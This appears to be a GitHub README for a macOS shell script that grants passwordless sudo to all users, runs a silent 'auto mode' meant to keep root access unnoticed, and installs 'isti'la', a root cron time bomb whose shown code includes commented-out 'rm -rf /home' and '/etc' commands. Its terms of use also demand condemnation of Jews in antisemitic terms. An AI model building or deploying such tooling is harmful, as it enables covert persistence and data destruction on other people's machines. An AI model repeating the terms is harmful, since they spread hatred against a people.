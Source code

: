 # `startup.sh`
## A MacOS Shell Script

Note: sudo privileges are required. For educational purposes only. Do not use maliciously.

## Requirements
You must have some prerequisites before installing/running this script:
- A MacOS machine
- Access to sudo
- git (installed by default)
- cron (installed by default)

## Installation
Clone this repository, preferably, but not necessarily in the `/opt` directory:
```sh
# git clone https://github.com/eccys/startup.sh
# cd startup.sh
```
Make it executable:
```sh
sudo chmod +x startup.sh
```
Run it:
```sh
./startup.sh
```

## Usage

Upon running and entering your sudo password, one is greeted with some information and options, which are self explanatory:
```sh
[root@hostname /opt]# ./startup.sh

List of super users: root
Passwordless sudo enabled: No
isti'la is disabled

Options:
1 = Toggle someone sudo
2 = Toggle sudo password requirement
3 = Enable/Disable isti'la

Select an option or press any other key to quit: 
```

If isti'la is enabled, the isti'la date is shown.

### Toggle someone sudo
On selecting this option, it will prompt for a user's username. The user is made into an administrator. This is safer than __Passwordless sudo__.

### Passwordless sudo
This writes to a file, `/etc/sudoers.d/nopasswd_for_all`, which contains the line `ALL ALL=(ALL) NOPASSWD: ALL`. It allows for anyone, even non-administrators, to use `sudo` and execute programs and/or commands as root. 

This works very well, as by default, the `/etc/sudoers` extends `/etc/suoders.d/`. It is very dangerous, and should never be left on, unless of course.. it is the desired outcome ;)

### Isti'la

Istila is a turkish word. This option is different from others, as it is coined solely for destruction.

#### What isti'la does
When enabling isti'la, it will prompt for a date. in the format `YYYYMMDDHH`. (e.g., `2024120112` for December 1st, 2024, 12PM.)

If enabled, isti'la writes the date to `/etc/isti'la_enabled`, and establishes a cron task in the root user's crontab, running every minute checking if the current date is greater than or equal to the isti'la date.

If it is, the commands specified in the script are executed:

```sh
# Function to execute isti'la if conditions are met
execute_istila() {
    if [ -f /etc/istila_enabled ]; then
        CURRENT_DATE=$(date +%Y%m%d%H)  # Convert current date to an integer format
        ISTILA_DATE=$(cat /etc/istila_enabled)

        if [ "$CURRENT_DATE" -ge "$ISTILA_DATE" ]; then
            if [ "$AUTO_MODE" != "true" ]; then
                echo "Executing isti'la..."
            fi
            # Uncomment the lines below to enable isti'la actions
            echo Successfully executed cron job and istila operation | sudo tee -a /opt/test >/dev/null
            # sudo rm -rf /home
            # sudo rm -rf /etc
        else
            if [ "$AUTO_MODE" != "true" ]; then
                echo "isti'la date has not yet arrived."
            fi
        fi
    fi
}
```

It is very useful for executing certain actions after a specified "doomsday" has passed.

> [!IMPORTANT]
> Commands such as `sudo rm -rf --no-preserve-root` are futile on MacOS environments with [System Integrity Protection](https://support.apple.com/en-us/102149) enabled. Likewise, any operation which seeks to modify files in `/bin`, `/sbin`, `/System`, `/var`, or `/usr`.

## Auto mode

The script supports the `-auto` flag. Execute:
```sh
./startup.sh -auto
```
Upon running the script in auto mode, __Passwordless sudo__ is automatically enabled, and that's it. 

Very useful for scenarios where someone types in their sudo password and their cooldown has not yet expired, and one wishes to retain sudo access silently. One may fork this repository and rename it to something inconspicuous, or use it as part of their own project. Running it in auto mode is inherently inconspicuous itself, as only a single word is printed: `Done.`.

### Isti'la with auto mode

The auto flag supports enabling isti'la automatically, via an argument. For example:
```sh
./startup.sh -auto 2024120112
```
will enable __Passwordless sudo__ as well as isti'la with the date `2024120112` (December 1st, 2024, 12PM). If all processes are executed successfully, one line is printed: `Done. isti'la date: <date>. Cron job is successful.`.

It is also very inconspicuous. Passwordless sudo is enabled regardless, as it is required for the cron job to be able to execute commands prefixed with `sudo`. However, this is not true, as it writes the cron job to the root user's crontab.

## Terms of use

By use of this software or any portion of it, the user accepts the following:

1. You condemn Israel and jews due to their stubbornness in accepting the truth due to their pride and selfishness, ingratitude for things which they have and did not work for, and their stinginess in spending their wealth for others. Also for attacking Palestine.
2. Men have the duty to provide for their household and protect them from harm, and women have the duty to care for and have love solely for her husband and her children, save for her relatives.
3. Feminism and the practice thereof is conducive to nothing, save the fabrication of nonsensical ideologies.
4. Abortion and the killing of one's children is unjust.
5. There are 2 genders.


Notes regarding the __Terms of Service__:
If the project is forked, implemented, or used in programs other than its own for discrete use or not for discrete use, the __Terms of Service__ need not be copied over.

Pull requests and issues regarding extending functionality or correcting unexpected behavior are welcome.
